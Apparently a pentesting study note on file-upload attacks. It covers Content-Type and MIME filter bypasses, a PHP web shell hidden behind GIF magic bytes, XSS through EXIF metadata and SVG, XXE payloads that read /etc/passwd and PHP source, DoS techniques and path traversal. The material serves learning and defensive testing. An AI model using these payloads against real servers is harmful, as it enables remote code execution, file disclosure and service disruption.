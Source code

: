 # File Upload - Type Filters (Content-Type & MIME Type) , XXE

### Why Extension Check Isn't Enough?

- Attackers can upload web shells using names like `shell.jpg.php` or `shell.php.jpg`
- Some files (e.g., `.svg`) are inherently scriptable and can carry XXE, XSS, or other payloads
- Solution: Validate file content, not just extension
### Type Filtering Techniques

#### 1. Content-Type Header Check

- Value comes from browser’s request
- Set automatically by browser (based on file extension)
- ✅ Can be manipulated (client-side)

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, ['image/jpg', 'image/jpeg', 'image/png', 'image/gif'])) {
    die("Only images are allowed");
}
```
##### Bypass:
- Use Burp Intruder or Repeater to change the header:

```http
Content-Type: image/jpeg
```

- Extension: `.php`
- Payload: PHP web shell
- ✅ Upload success → `shell.php?cmd=id`
#### Wordlist for Content-Type Fuzzing:

```bash
wget https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
#### 2. MIME-Type Validation

- Server inspects magic bytes of the file
- Uses function:

```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);
```
##### Bypass:

- Prepend GIF magic bytes (`GIF8`) to your PHP shell

```php
GIF8<?php system($_GET['cmd']); ?>
```

- MIME type will show: `image/gif`
- ✅ Upload success → Still executes as `.php`
### MIME vs Content-Type (Differences)

| Aspect           | Content-Type                | MIME-Type (via PHP)           |
| ---------------- | --------------------------- | ----------------------------- |
| Source           | HTTP header (browser-sent)  | File content inspection       |
| Manipulable?     | ✅ Yes (Burp or dev tools)   | ❌ No (server-side function)   |
| Detection Method | Based on filename/extension | Based on file magic bytes |
### Combined Bypass Strategy
##### Try permutations of:

- ✅ Allowed MIME + ❌ Disallowed Content-Type
- ✅ Allowed MIME + ❌ Disallowed extension
- ❌ Disallowed MIME + ✅ Allowed extension
- MIME spoofing (e.g., GIF8) + `Content-Type: image/png` 
- `.php` shell that passes content filter due to fake header
### Wordlists Used

- `SecLists/Discovery/Web-Content/web-all-content-types.txt`
     -  Used for Content-Type fuzzing
	-  Filtered using: `grep 'image/'` → `image-content-types.txt`
# Limited File Uploads
### What Are They?

- Upload forms that **don’t allow arbitrary file types**
- Only specific types (like images or docs) are permitted
- Still exploitable with techniques like:
    - ❗ XSS via metadata or SVG
    - ❗ XXE via XML/SVG/office formats
    - ❗ DoS via compression bombs or oversized images/files
## Stored XSS via File Upload
### A. HTML Payload

- HTML files may include inline JavaScript
- If rendered: `alert(document.domain)` works
### B. Metadata Injection

```bash
exiftool -Comment='"><img src=1 onerror=alert(window.origin)>' image.jpg
```

- If web app displays **EXIF metadata** → XSS gets triggered
### C. SVG Injection

```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(window.origin);</script>
</svg>
```

- SVGs are XML-based → easily scriptable    
- Rendered as image but **JavaScript executes**
## 2. XXE via SVG / XML
### A. Local File Disclosure

```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- Server includes file contents
### B. PHP Source Code Disclosure

```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

- View source code of `index.php` in Base64 
### C. XXE in Other Docs

- Office files, PDFs, etc. contain embedded XML
- Can carry same XXE logic

> Can also lead to **SSRF**: Internal services discovery or API abuse
## 3. DoS via File Upload
### A. XXE-Based DoS

- Billion laughs / recursive entity definitions  
### B. Decompression Bomb (ZIP)

- Nested ZIP files → exponential unpacking    
- Crashes or fills disk on extraction
### C. Pixel Flood Attack (Image DoS)

```text
Original: 500x500 JPG
Tampered header: 65535x65535 → 4Gpx
```

- Image rendering causes memory exhaustion    
### D. Oversized File Upload

- No size restriction → disk full → app crash   
### E. Path Traversal

```bash
../../../../etc/passwd
```

- Can overwrite system files or force write to invalid paths   
## Wordlists Used

- None specified for this module
- Reuse previous ones like:
    - **image-content-types.txt**
    - **PHP extensions**        
    - **SVG payload samples**        

> 📎 Keep these in `wordlists/` or reference via:  
> `https://github.com/danielmiessler/SecLists`  
> `https://github.com/swisskyrepo/PayloadsAllTheThings`
# Tags
>  #Web-Exploitation #Exploitation #File-Upload-Attacks